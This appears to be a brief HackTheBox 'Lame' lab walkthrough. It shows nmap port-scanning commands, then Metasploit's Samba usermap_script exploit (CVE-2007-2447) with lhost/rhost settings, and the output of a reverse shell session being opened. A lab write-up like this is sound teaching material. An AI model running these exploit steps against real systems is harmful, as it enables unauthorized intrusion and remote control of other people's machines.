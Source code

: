  WalkthroughLameHackTheBox
 
We will learn the following:
- Using nmap to find opened ports & running services (https://nmap.org/)
- Searching for public exploits for vulnerable services (https://www.metasploit.com/)
- Download and install required tools/libraries to run exploit on target machine
- Reverse shell on target machine

Let's go:
excute on command line (zhs :) )
(sudo) nmap -sC -sV -p- -T4 <RemoteIp> or 
(sudo) nmap -A <RemoteIp> or 
(sudo) nmap -T4 - A -V <RemoteIp>

go to samba target (CVE-2007-2447 with metasploit framework)

sudo msfdb init && msfconsole

msf6>
msf6> use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set lhost <LocalIp> (set your localhost ip in vpn tunnel, if necessary)
msf6 exploit(multi/samba/usermap_script) > set rhost <RemoteIp> (set Remote host ip>
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on <LocalIp>:4444 
[*] Command shell session 1 opened (<LocalIp>:4444 -> <RemoteIp>:43178)

We are in
feel free to run commands
like >_ uname -r & pwd & ls

Hug!
>_JMP
